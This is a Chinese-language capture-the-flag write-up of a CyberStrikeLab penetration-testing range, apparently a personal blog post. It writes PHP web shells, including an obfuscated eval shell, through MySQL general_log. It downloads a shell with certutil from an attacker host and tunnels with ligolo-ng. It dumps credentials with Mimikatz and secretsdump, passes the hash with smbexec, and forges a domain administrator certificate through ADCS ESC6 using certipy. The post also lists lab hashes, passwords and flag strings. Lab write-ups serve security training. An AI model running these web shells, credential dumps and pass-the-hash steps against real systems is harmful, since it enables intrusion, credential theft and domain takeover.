

```
SHOW VARIABLES LIKE '%general%'
```



所以应该写入到 `C:\phpstudy_pro\WWW\` 这个目录就能访问

开启 `general_log` 模式和修改 `log_file` 路径

```
set global general_log = on;
set global general_log_file='C:\phpstudy_pro\WWW\shell.php';
```

因为开启了日志记录功能，所执行的 sql 语句都会被记录在日志中，写入一句话，查询一下

```
select '<?php eval($_POST[1]);?>'
```

但是发现不行，这个就执行不了，那就生成一个免杀的蚁剑，重新来

```
set global general_log_file='C:\phpstudy_pro\WWW\1.php';
```

```
select '<?php class QAZP { public function __construct($CHBnLm){ @eval("/*qglXvqZB*/".$CHBnLm."/*IJFMGGQga*/"); }}new QAZP($_REQUEST[1]);?>'
```

然后连接成功，但是发现用不了，再换一个



这种没有问题了，试了半天，下面这种没有问题：

```
set global general_log_file='C:\phpstudy_pro\WWW\4.php';
```

```
select '<?=system($_POST[1]);?>' 
```



可以尝试下载免杀的哥斯拉到这个目录

端口转发

```
 listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:80
```

```
certutil -urlcache -split -f http://10.0.0.33:1234/shell.php C:\phpstudy_pro\WWW\shell.php
```

或者

```
echo base64编码 > 1.txt
certutil -decode 1.txt 2.php
```



没有找到 FLAG，先添加用户，然后 RDP 连接，在断开的 `网络驱动器` 找到了 `flag.txt`



```
go-flag{A3F29A43-BF9E-42F8-82B4-21B314FFEE08}
```

另外在目录 `C:\Program Files\Windows NT` 能找到 `flag.txt`，这个是 FLAG 3

```
go-flag{D58E9B11-3AA8-4801-A050-205F7C61BD0D}
```

## 内网信息收集

### Mimikatz

```
Administrator b896444e4776f97b02383ad84834ab22
```

### Fscan

```
start infoscan
(icmp) Target 10.10.10.42     is alive
(icmp) Target 10.10.10.66     is alive
[*] Icmp alive hosts len is: 2
10.10.10.66:445 open
10.10.10.42:445 open
10.10.10.66:139 open
10.10.10.42:139 open
10.10.10.66:135 open
10.10.10.42:135 open
[*] alive ports len is: 6
start vulscan
[*] NetInfo
[*]10.10.10.66
   [->]cslab
   [->]10.10.10.66
[*] NetBios 10.10.10.42     WORKGROUP\WIN-FRCBS8Q3S7B
[*] OsInfo 10.10.10.66  (Windows Server 2016 Standard 14393)
[*] NetInfo
[*]10.10.10.42
   [->]WIN-FRCBS8Q3S7B
   [->]10.10.10.42
已完成 6/6
[*] 扫描结束,耗时: 6.3125037s
```

### Winlogon

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARaE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

没有内容

### RDP

```
dir /a C:\Users\Administrator\AppData\Local\Microsoft\Credentials\*
```

```
dir /a C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
```

都没有凭证

## 内网穿透 - ligolo-ng

```
listener_add --addr 0.0.0.0:9999 --to 0.0.0.0:9999
```

```
agent -connect 10.0.0.33:9999 -ignore-cert
```

## 10.10.10.42 - NFS

```
C:\Users\byxs20\Desktop>fscan -h 10.10.10.42 -p 1-65535

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
10.10.10.42:445 open
10.10.10.42:139 open
10.10.10.42:135 open
10.10.10.42:111 open
10.10.10.42:2049 open
10.10.10.42:5985 open
10.10.10.42:47001 open
10.10.10.42:49666 open
10.10.10.42:49665 open
10.10.10.42:49664 open
10.10.10.42:49677 open
10.10.10.42:49680 open
10.10.10.42:49679 open
10.10.10.42:49678 open
[*] alive ports len is: 14
start vulscan
[*] NetBios 10.10.10.42     WORKGROUP\WIN-FRCBS8Q3S7B
[*] NetInfo
[*]10.10.10.42
   [->]WIN-FRCBS8Q3S7B
   [->]10.10.10.42
[*] WebTitle http://10.10.10.42:47001  code:404 len:315    title:Not Found
[*] WebTitle http://10.10.10.42:5985   code:404 len:315    title:Not Found
已完成 14/14
[*] 扫描结束,耗时: 2m25.1396649s
```

相当于有一个任意文件读取，而且没有 Web，所以可以读取注册表，拿到 HASH，可以直接在 `10.0.0.50` 里面下载

```
C:\Windows\System32\Config\SAM
C:\Windows\System32\Config\SYSTEM
C:\Windows\System32\Config\SECURITY
```

```
sudo impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY LOCAL
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e19f643e24188362e0717744239f483:::
```

```
sudo nxc smb 10.10.10.42 -u 'Administrator' -H 0e19f643e24188362e0717744239f483
```



上去后可以尝试添加用户和配置 RDP，但是是单网卡，而且没有多余的用户，没有 RDP 记录，没有 systemprofile 文件

也就收集到了一个 Administrator 的 NT-HASH：

```
Administrator 0e19f643e24188362e0717744239f483
```

RDP 上去看一下

## 内网信息收集

### Mimikatz

```
Administrator 0e19f643e24188362e0717744239f483
```

### Fscan

```
start infoscan
(icmp) Target 10.10.10.66     is alive
[*] Icmp alive hosts len is: 1
10.10.10.66:445 open
10.10.10.66:139 open
10.10.10.66:135 open
[*] alive ports len is: 3
start vulscan
[*] NetInfo
[*]10.10.10.66
   [->]cslab
   [->]10.10.10.66
[*] OsInfo 10.10.10.66  (Windows Server 2016 Standard 14393)
已完成 3/3
[*] 扫描结束,耗时: 5.210339s
```

### Winlogon

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARaE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

没有内容

### RDP

```
dir /a C:\Users\Administrator\AppData\Local\Microsoft\Credentials\*
```

```
dir /a C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
```

都没有凭证

## 10.10.10.66 - PTH - FLAG 4

全端口扫描：

```
start infoscan
10.10.10.66:445 open
10.10.10.66:139 open
10.10.10.66:135 open
10.10.10.66:5985 open
10.10.10.66:47001 open
10.10.10.66:49668 open
10.10.10.66:49667 open
10.10.10.66:49666 open
10.10.10.66:49665 open
10.10.10.66:49664 open
10.10.10.66:49671 open
10.10.10.66:49670 open
10.10.10.66:49669 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo
[*]10.10.10.66
   [->]cslab
   [->]10.10.10.66
[*] OsInfo 10.10.10.66  (Windows Server 2016 Standard 14393)
[*] WebTitle http://10.10.10.66:5985   code:404 len:315    title:Not Found
[*] WebTitle http://10.10.10.66:47001  code:404 len:315    title:Not Found
已完成 13/13
[*] 扫描结束,耗时: 3m58.8283681s
```

现在把所有信息收集的密码都拿过来：

```
b896444e4776f97b02383ad84834ab22
0e19f643e24188362e0717744239f483
08d6d31ce0d030cb18856e1ce07d0c82 WWcsuio123
```

Wh1teSu 用 everything 在 phpmyadmin 机器搜索到了密码：


```
administrator:cs1ab@cs1
```

```
sudo nxc smb 10.10.10.66 -u 'Administrator' -p cs1ab@cs1 -d '.' --shares
```



```
sudo impacket-smbexec ./Administrator:'cs1ab@cs1'@10.10.10.66 -codec gbk
```

```
go-flag{EAADD1CB-E445-41EE-A023-21A6CDDBD325}
```

开启 RDP 直接上去

## 内网信息收集



直接没有 DC，逆天环境，等修复

### Mimikatz

```
CSLAB$ 0429bee0d188250ad31031be795f7160
```

### Fscan

```
10.10.10.5:88 open
10.10.10.5:445 open
10.10.10.5:139 open
10.10.10.5:135 open
10.10.10.5:80 open
[*] alive ports len is: 5
start vulscan
[*] NetInfo
[*]10.10.10.5
   [->]DC
   [->]10.10.10.5
[*] OsInfo 10.10.10.5   (Windows Server 2022 Standard 20348)
[*] WebTitle http://10.10.10.5         code:200 len:703    title:IIS Windows Server
[+] PocScan http://10.10.10.5 poc-yaml-active-directory-certsrv-detect
```

### Winlogon

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARaE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

没有内容

### RDP

```
dir /a C:\Users\Administrator\AppData\Local\Microsoft\Credentials\*
```

```
dir /a C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
```

都没有凭证

## 10.10.10.5 - ADCS\_ESC 6 - FLAG 5

有 ADCS 扫描一下漏洞

```
certipy-ad find -u 'CSLAB$@cyberstrike.lab' -hashes '0429bee0d188250ad31031be795f7160' -dc-ip 10.10.10.5 -vulnerable -stdout
```



```
证书名: cyberstrike-DC-CA
```

ESC 8 的条件不符合：ADCS 和 DC 要不是同一台机器

ESC 6：注册是 `User` 证书，那么肯定不能用机器用户，域里面只有一个 cslab 用户，所以缺少凭证



所以要想办法弄到 `cslab` 用户凭证，找了一会儿在这个地方找到了：



使用 `powerview` 读取域控 Administrator 的 SID

```
powerview cyberstrike.lab/'cslab$'@10.10.10.5 -H 0429bee0d188250ad31031be795f7160 --web
```



```
S-1-5-21-64854050-1587546430-3649469574-500
```

申请证书

```
certipy-ad req -u 'cslab@cyberstrike.lab' -p 'cs1ab@po' -dc-ip 10.10.10.5 -target 'DC.cyberstrike.lab' -ca 'cyberstrike-DC-CA' -template 'User' -upn 'administrator@cyberstrike.lab' -sid 'S-1-5-21-4286488488-1212600890-1604239976-500'
```



请求 TGT

```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip 10.10.10.5
```



报错了 `Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)`

这个应该是环境的问题，所以又没办法打了，反馈一下，修好了，重来打

域名变了 `cyberstrikelab.com`，添加 DNS 记录到 `/etc/hosts`，大部分命令也要改一下了，如下：

```
10.10.10.5 DC.cyberstrikelab.com cyberstrikelab.com
```

```
certipy-ad find -u 'cslab@cyberstrikelab.com' -p 'cs1ab@po' -dc-ip 10.10.10.5 -vulnerable -stdout
```

```
证书名: cyberstrikelab-DC-CA
```

```
powerview cyberstrikelab.com/cslab:'cs1ab@po'@10.10.10.5 --web
```

```
SID: S-1-5-21-4286488488-1212600890-1604239976-500
```

请求证书：

```
certipy-ad req -u 'cslab@cyberstrikelab.com' -p 'cs1ab@po' -dc-ip 10.10.10.5 -target 'DC.cyberstrikelab.com' -ca 'cyberstrikelab-DC-CA' -template 'User' -upn 'administrator@cyberstrikelab.com' -sid 'S-1-5-21-4286488488-1212600890-1604239976-500'
```

```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip 10.10.10.5
```



```
aad3b435b51404eeaad3b435b51404ee:d564e5c8e98600fa2b9a221e4d5786b7
```

PTH

```
sudo impacket-smbexec Administrator@10.10.10.5 -hashes :d564e5c8e98600fa2b9a221e4d5786b7 -codec gbk
```



```
go-flag{091DB8DD-BBB9-4C7F-99AC-FD50B662D8F9}
```
